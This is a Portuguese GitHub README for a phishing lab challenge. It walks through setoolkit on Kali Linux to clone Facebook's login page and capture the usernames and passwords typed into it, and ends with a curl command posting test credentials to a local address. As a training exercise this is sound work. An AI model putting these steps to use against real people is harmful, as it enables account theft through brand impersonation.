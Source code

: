 # Phishing-com-o-Kali-Linux
Este repositório é para um desafio de Phishing utilizando o Kali Linux para a captura de credenciais **(usuários e senhas)**

## Ferramenta Utilizada
- **setoolkit**

## Passo a Passo

1. Acesso ao root: Antes de começar, certifique-se de acessar o usuário root com o comando:
   ```bash
   sudo su
   ```
2. Iniciando o setoolkit: No terminal, execute o comando:
   ```bash
   setoolkit
   ```
   Escolha a opção de **Social-Engineering Attacks** no menu principal.
   
3. Selecionando o Vetor de Ataque: Opte pelo vetor de ataque **Website Attack Vectors**.

4. Escolhendo o Método: Escolha a opção **Credential Harvester Attack Method** e selecione a opção para clonar um site.
   
5. Clonando o Site: Durante o desafio, utilizamos o **Facebook** como exemplo de site a ser clonado. Colocar a URL do site a ser clonado quando solicitado.
   
6. Obtendo o Endereço IP: Para capturar o endereço IP da máquina (necessário para configurar o phishing), use o comando:
   ```bash
   ifconfig
   ```
   Copie o endereço IP e insira-o no navegador para testar o ataque.
   
7. E nisso informe as credencias no formulário que está sendo solicitado ao fazer sua requisição, será retornado no terminal
   ![Imagem de exemplo](Screenshot_9.png)
![Imagem de exemplo](Screenshot_10.png)

OBS: Podemos ter dificuldades na parte de requisição do navegador e ao servidor local, então podemos utilizar o curl:
 ```bash
   curl -X POST -d "email=teste@tste.com&passwordteste2" http://192.168.18.160
   ```
---
